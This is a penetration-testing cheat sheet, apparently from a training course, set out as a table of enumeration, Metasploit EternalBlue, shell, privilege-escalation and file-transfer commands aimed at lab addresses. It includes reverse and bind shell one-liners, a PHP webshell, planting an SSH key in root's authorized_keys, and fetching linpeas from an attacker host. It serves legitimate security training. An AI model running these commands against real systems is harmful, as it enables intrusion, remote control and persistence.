| `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` | Run a directory scan on a website                            |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Run a sub-domain scan on a website                           |
| `curl -IL https://www.inlanefreight.com`                     | Grab website banner                                          |
| `whatweb 10.10.10.121`                                       | List details about the webserver/certificates                |
| `curl 10.10.10.121/robots.txt`                               | List potential directories in `robots.txt`                   |
| `ctrl+U`                                                     | View page source (in Firefox)                                |
| **Public Exploits**                                          |                                                              |
| `searchsploit openssh 7.2`                                   | Search for public exploits for a web application             |
| `msfconsole`                                                 | MSF: Start the Metasploit Framework                          |
| `search exploit eternalblue`                                 | MSF: Search for public exploits in MSF                       |
| `use exploit/windows/smb/ms17_010_psexec`                    | MSF: Start using an MSF module                               |
| `show options`                                               | MSF: Show required options for an MSF module                 |
| `set RHOSTS 10.10.10.40`                                     | MSF: Set a value for an MSF module option                    |
| `check`                                                      | MSF: Test if the target server is vulnerable                 |
| `exploit`                                                    | MSF: Run the exploit on the target server is vulnerable      |
| **Using Shells**                                             |                                                              |
| `nc -lvnp 1234`                                              | Start a `nc` listener on a local port                        |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`        | Send a reverse shell from the remote server                  |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server                      |
| `nc 10.10.10.1 1234`                                         | Connect to a bind shell started on the remote server         |
| `python -c 'import pty; pty.spawn("/bin/bash")'`             | Upgrade shell TTY (1)                                        |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice  | Upgrade shell TTY (2)                                        |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | Create a webshell php file                                   |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id`                | Execute a command on an uploaded webshell                    |
| **Privilege Escalation**                                     |                                                              |
| `./linpeas.sh`                                               | Run `linpeas` script to enumerate remote server              |
| `sudo -l`                                                    | List available `sudo` privileges                             |
| `sudo -u user /bin/echo Hello World!`                        | Run a command with `sudo`                                    |
| `sudo su -`                                                  | Switch to root user (if we have access to `sudo su`)         |
| `sudo su user -`                                             | Switch to a user (if we have access to `sudo su`)            |
| `ssh-keygen -f key`                                          | Create a new SSH key                                         |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user                     |
| `ssh root@10.10.10.10 -i key`                                | SSH to the server with the generated private key             |
| **Transferring Files**                                       |                                                              |
| `python3 -m http.server 8000`                                | Start a local webserver                                      |
| `wget http://10.10.14.1:8000/linpeas.sh`                     | Download a file on the remote server from our local machine  |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`       | Download a file on the remote server from our local machine  |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh`             | Transfer a file to the remote server with `scp` (requires SSH access) |
| `base64 shell -w 0`                                          | Convert a file to `base64`                                   |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell`            | Convert a file from `base64` back to its orig                |
| `md5sum shell`                                               | Check the file's `md5sum` to ensure it converted correctlyBasic Tools |

[1]: https://en.wikipedia.org/wiki/Tmux	"tmux on wikipedia"


